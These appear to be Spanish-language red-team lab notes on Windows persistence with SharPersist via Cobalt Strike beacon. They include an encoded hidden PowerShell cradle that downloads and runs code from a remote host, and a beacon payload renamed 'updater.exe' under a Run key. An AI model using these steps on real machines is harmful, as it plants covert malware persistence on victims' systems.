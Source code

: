 
| **Argumentos** | **Explanation**                      |
| ---------- | -------------------------------- |
| `-t`         | **Tecnica de persistencia deseada**  | 
| `-c`         | **Comando a ejecutar**               |
| `-a`         | **Argumentos para ese comando**      |
| `-n`         | **Nombre de la tarea**               |
| `-m`         | **Modo (add, remove, check y list)** |
| `-o`         | **Es la frecuencia de la tarea**     |

##### Startup Folder

la carpeta de inicio se ubica en el siguiente path `C:\Users\bfarmer\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\` es ahi donde podemos soltar un binario, o un lnk malicioso como lo hace **sharpersist**.

```powershell
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Debug\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgA1AC4AMQAyADAALwBhACIAKQApAA==" -f "UserEnvSetup" -m add

[*] INFO: Adding startup folder persistence
[*] INFO: Command: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[*] INFO: Command Args: -nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgA1AC4AMQAyADAALwBhACIAKQApAA==
[*] INFO: File Name: UserEnvSetup
[+] SUCCESS: Startup folder persistence created
[*] INFO: LNK File located at: C:\Users\bfarmer\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\UserEnvSetup.lnk
[*] INFO: SHA256 Hash of LNK file: B34647F8D8B7CE28C1F0DA3FF444D9B7244C41370B88061472933B2607A169BC
```

##### Registry Autorun

el registro que se suele ejecutar durante el inicio de sesion es el siguiente: 
`HKCU\Software\Microsoft\Windows\CurrentVersion\Run`

Primero debemos crear una carga util, para que el registro apunte hacia ella y la ejecute en el inicio
```
beacon> cd C:\ProgramData
beacon> upload C:\Payloads\beacon-http.exe
beacon> mv beacon-http.exe updater.exe
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Debug\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add

[*] INFO: Adding registry persistence
[*] INFO: Command: C:\ProgramData\Updater.exe
[*] INFO: Command Args: /q /n
[*] INFO: Registry Key: HKCU\Software\Microsoft\Windows\CurrentVersion\Run
[*] INFO: Registry Value: Updater
[*] INFO: Option: 
[+] SUCCESS: Registry persistence added
```
